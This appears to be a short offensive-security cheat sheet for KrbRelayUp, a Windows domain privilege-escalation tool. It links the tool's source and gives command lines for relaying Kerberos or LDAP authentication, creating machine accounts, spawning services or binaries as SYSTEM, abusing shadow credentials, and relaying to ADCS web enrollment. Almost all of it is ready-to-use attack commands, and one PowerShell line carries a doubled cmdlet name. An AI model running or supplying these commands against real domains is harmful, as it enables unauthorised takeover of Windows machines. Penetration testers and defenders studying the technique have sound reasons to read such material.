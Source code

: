 ### Source
https://github.com/Dec0ne/KrbRelayUp
https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-KrbRelayUp.ps1

### Relay ldap request to local Service Manager, -c = create new machine account (requires LDAP Signing not to be enforced)
```
KrbRelayUp.exe relay -d <domain> -c -cn <newComputer> -cp <newPassword>
```

### Request TGS to create new service running as SYSTEM
```
KrbRelayUp.exe spawn -d <domain> -cn <newComputer> -cp <newPassword> 
```

### Request TGS to create new service running as SYSTEM and execute given binary
```
Invoke-Invoke-KrbRelayUp -Command 'spawn -d <domain> -cn <computername> -cp <computerpassword> -sc C:\path\executable.exe'
```

### Start SYSTEM cmd shell, -f = force shadow (clear msDS-KeyCredentialLink before adding new shadow creds)
```
KrbRelayUp.exe full -m shadowcred -f
```

### Relay machine kerberos auth to ADCS Web Enrollment (instead LDAP), -ca = default is domain controller
```
KrbRelayUp.exe full -m adcs -ca <certificateAuthorityFqdn>
```

